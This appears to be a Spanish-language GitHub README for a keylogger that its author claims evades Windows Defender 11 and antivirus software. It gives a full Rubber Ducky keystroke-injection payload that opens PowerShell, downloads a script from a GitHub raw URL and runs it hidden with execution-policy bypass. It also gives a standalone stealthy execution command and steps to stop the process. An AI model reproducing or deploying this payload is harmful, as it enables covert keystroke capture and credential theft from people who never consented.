 ***Keylogger con evasión de Windows Defender 11 y Antivirus.***

# ---------------------------------------------------------
# By R.G.M - 2025
# ---------------------------------------------------------


Keylogger capaz de evadir Windows Defender 11 y Antivirus.
Creado con la idea de ejecutarlo remotamente desde un rubberducky.

# ---------------------------------------------------------
# PAYLOAD para RUBBER DUCKY;
# ---------------------------------------------------------

DELAY 20

GUI r

DELAY 20

STRING cmd

ENTER	

ENTER

DELAY 20

STRING powershell

ENTER

DELAY 20

STRING Invoke-WebRequest -Uri "https://raw.githubusercontent.com/C4sp3r2222/duckylog/main/script.ps1" -OutFile "$env:USERPROFILE\Desktop\script.ps1"

ENTER

DELAY 300

STRING powershell -WindowStyle Hidden -NoProfile -ExecutionPolicy Bypass -Command "Start-Process powershell -ArgumentList '-NoProfile -ExecutionPolicy Bypass -File C:\Users\$env:USERNAME\Desktop\script.ps1' -WindowStyle Hidden -ErrorAction SilentlyContinue"

ENTER


# ---------------------------------------------------------
# EJECUCION en Powershell en modo sigiloso y persistente:
# ---------------------------------------------------------

powershell -WindowStyle Hidden -NoProfile -ExecutionPolicy Bypass -Command "Start-Process powershell -ArgumentList '-NoProfile -ExecutionPolicy Bypass -File C:\Users\$env:USERNAME\Desktop\script.ps1' -WindowStyle Hidden -ErrorAction SilentlyContinue"

# ---------------------------------------------------------
# DETENCION DE SCRIPT:
# ---------------------------------------------------------

-Ejecutar en Powershell:
Get-CimInstance Win32_Process | Where-Object { $_.CommandLine -like '*script.ps1*' } | Select-Object ProcessId, CommandLine

-(Veremos un numero de proceso asociado Ej: 1234 )

-Para detenerlo, ejecutar en powershell:
Stop-Process -Id 1234 -Force

# (Detenemos el proceso)
